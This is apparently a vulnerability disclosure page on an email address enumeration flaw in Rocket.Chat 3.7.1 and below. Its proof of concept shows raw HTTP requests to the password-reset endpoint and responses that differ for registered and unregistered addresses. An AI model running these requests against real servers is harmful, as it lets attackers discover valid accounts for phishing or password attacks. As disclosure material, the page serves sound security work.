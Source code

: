 <languages />

<div lang="chinese" dir="ltr" class="mw-content-ltr">
簡介
----

Rocket.Chat 3.7.1 及以下版本存在電子郵件地址枚舉漏洞。

</div>
POC
---

    ################

    Sample HTTP request sent with a registered email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    POST /api/v1/method.callAnon/sendForgotPasswordEmail HTTP/1.1
    Host: localhost:3000
    Content-Length: 122
    Accept: */*
    Content-Type: application/json


    {"message":"{\"msg\":\"method\",\"method\":\"sendForgotPasswordEmail\",\"params\":[\"positive@test.de\"],\"id\":\"3\"}"}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    The server response to a valid email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    HTTP/1.1 200 OK
    X-XSS-Protection: 1
    X-Content-Type-Options: nosniff
    X-Frame-Options: sameorigin
    X-Instance-ID: DQDfuEfNLdbZr3zYH
    Cache-Control: no-store
    Pragma: no-cache
    content-type: application/json
    Vary: Accept-Encoding
    Date: Tue, 03 Nov 2020 12:01:25 GMT
    Connection: keep-alive
    Content-Length: 78

    {"message":"{\"msg\":\"result\",\"id\":\"3\",\"result\":true}","success":true}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    Sample HTTP request sent with a non registered email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    POST /api/v1/method.callAnon/sendForgotPasswordEmail HTTP/1.1
    Host: localhost:3000
    Content-Length: 119
    Accept: */*
    Content-Type: application/json


    {"message":"{\"msg\":\"method\",\"method\":\"sendForgotPasswordEmail\",\"params\":[\"false@test.de\"],\"id\":\"3\"}"}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    The server response to an invalid email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    HTTP/1.1 200 OK
    X-XSS-Protection: 1
    X-Content-Type-Options: nosniff
    X-Frame-Options: sameorigin
    X-Instance-ID: DQDfuEfNLdbZr3zYH
    Cache-Control: no-store
    Pragma: no-cache
    content-type: application/json
    Vary: Accept-Encoding
    Date: Tue, 03 Nov 2020 12:03:08 GMT
    Connection: keep-alive
    Content-Length: 79

    {"message":"{\"msg\":\"result\",\"id\":\"3\",\"result\":false}","success":true}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~